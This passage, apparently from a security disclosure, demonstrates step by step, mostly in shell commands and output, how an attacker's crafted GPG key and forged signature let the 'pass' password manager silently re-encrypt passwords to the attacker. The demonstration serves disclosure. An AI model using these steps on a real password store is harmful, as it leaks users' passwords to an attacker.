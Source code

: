 ### Demonstrating integrity protection

The attacker proceeds by adding the crafted encryption key to the list
of encryption keys used by `pass`:

```
$ echo $ATTACKER_KEY >> ~/.password-store/.gpg-id
```

Before we continue, we demonstrate that the integrity protection is in
effect:

```
$ pass generate pw
Signature for /home/marcus/.password-store/./.gpg-id is invalid.
```

### Circumventing integrity protection

To complete the attack, the attacker simply overwrites the existing
signatures with a signature by the crafted key:

```
$ gpg --detach-sign -u $ATTACKER_KEY ~/.password-store/.gpg-id
File '/home/marcus/.password-store/.gpg-id.sig' exists. Overwrite? (y/N) y
```

Now the attack is complete, and `pass` will use both the legitimate
and the injected encryption key for all future write operations
(`generate`, `edit`, `cp`, `mv`, `insert`, etc.), transparently
reencrypting existing passwords to both keys if necessary. All
passwords rewritten this way leak to the attacker.

### Demonstrating the information leak

```
$ pass generate pw10
$ gpg --list-only --decrypt ~/.password-store/pw10.gpg 
gpg: encrypted with 2048-bit RSA key, ID E849B2E56557D457, created 2018-06-13
      "[GNUPG:] VALIDSIG 3CB0E84416AD52F7E186541888B08D5A57B62140 x 3CB0E84416AD52F7E186541888B08D5A57B62140"
gpg: encrypted with 4096-bit RSA key, ID 50749F1E1C02AB31, created 2015-11-24
      "Marcus Brinkmann <marcus.brinkmann@ruhr-uni-bochum.de>"
```

```
$ pass cp pw pw2
/home/marcus/.password-store/pw.gpg
'/home/marcus/.password-store/pw.gpg' -> '/home/marcus/.password-store/pw2.gpg'
pw2: reencrypting to 50749F1E1C02AB31 E849B2E56557D457
$ gpg --list-only --decrypt ~/.password-store/pw.gpg
gpg: encrypted with 4096-bit RSA key, ID 50749F1E1C02AB31, created 2015-11-24
      "Marcus Brinkmann <marcus.brinkmann@ruhr-uni-bochum.de>"
$ gpg --list-only --decrypt ~/.password-store/pw2.gpg
gpg: encrypted with 2048-bit RSA key, ID E849B2E56557D457, created 2018-06-13
      "[GNUPG:] VALIDSIG 3CB0E84416AD52F7E186541888B08D5A57B62140 x 3CB0E84416AD52F7E186541888B08D5A57B62140"
gpg: encrypted with 4096-bit RSA key, ID 50749F1E1C02AB31, created 2015-11-24
      "Marcus Brinkmann <marcus.brinkmann@ruhr-uni-bochum.de>"
```
